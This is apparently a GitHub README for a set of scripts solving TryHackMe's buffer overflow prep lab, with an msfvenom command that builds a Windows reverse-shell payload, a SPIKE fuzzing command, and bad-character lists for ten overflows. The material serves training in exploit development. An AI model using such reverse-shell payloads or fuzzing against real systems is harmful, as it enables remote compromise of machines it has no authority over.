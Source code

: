 # THM_Buffer-Overflow-Prep

Each folder numbered from 1 to x contains the scripts from fuzzing to the stage of creating a final **exploit**

Buffer overflow Room can be Found at:--> https://tryhackme.com/room/bufferoverflowprep

**command used for shellcode generation to Fit with scripts**

     msfvenom -p windows/shell_reverse_tcp LHOST=<The-Listening-ip> LPORT=<Listening-port> -f py -b "<badChars-specific-to-overflow>" EXITFUNC=thread -v shellcode

**command to be used with spike scripts to find payload triggering the crash**

     generic_send_tcp <target-ip> 1337{this port is specific to the oscp.exe} fuzz.spk 0 0
    
 More on spike:--> https://resources.infosecinstitute.com/topic/intro-to-fuzzing/
  
# About Fuzz.py Scripts
     
**The fuzz.py scripts will not Display the output Till you press CTRL + C {yeah I know add a except statement but i find no use in it lol} For this very reason a time dealy of 5 seconds is Added so as soon as you see the application crash in immunity press CTRL + C{in 5 sec delay} to stop the script and this would also give us the bytes at which application crashed**
     
     
# OVERFLOW 1

**Bad Chars:--> \x00\x07\x2e\xa0**


# OVERFLOW 2

**Bad Chars:--> \x00\x23\x3c\x83\xa0\xba**

# OVERFLOW 3

**Bad Chars:--> \x00\x11\x40\x5f\xb8\xee\xef**

# OVERFLOW 4

**Bad Chars:--> \x00\xa9\xcd\xd4**

# OVERFLOW 5

**Bad Chars:--> \x00\x16\x2f\xf4\xfd**

# OVERFLOW 6

**Bad Chars:--> \x00\x08\x2c\xad**

# OVERFLOW 7

**Bad Chars:--> \x00\x8c\xae\xbe\xfb**

               # Important Note

     → Our Fuzz script crashed the script at 1300 bytes but we see that the EIP register is still not reached or in other words still not Filled with  all A's which it ideally should be so we increase the buffer from 1300 to 1400 and this time it does fill EIP with 41414141 which is when we are good to Go :)


# OVERFLOW 8

**Bad Chars:--> \x00\x1d\x2e\xc7\xee**

# OVERFLOW 9

**Bad Chars:--> \x00\x04\x3e\x3f\xe1**



# OVERFLOW 10

**Bad Chars:--> \x00\xa0\xad\xbe\xde\xef**


# NOTE

  *The badChars scripts present in each overflow directory contains a badChars variable from which also badchars specific to the overflow have been eliminated* 
  
 **scripts are to be run with python but you may adjust some encoding in place to make them work with python3** 
 
**Other Overflows will be added as I do them**
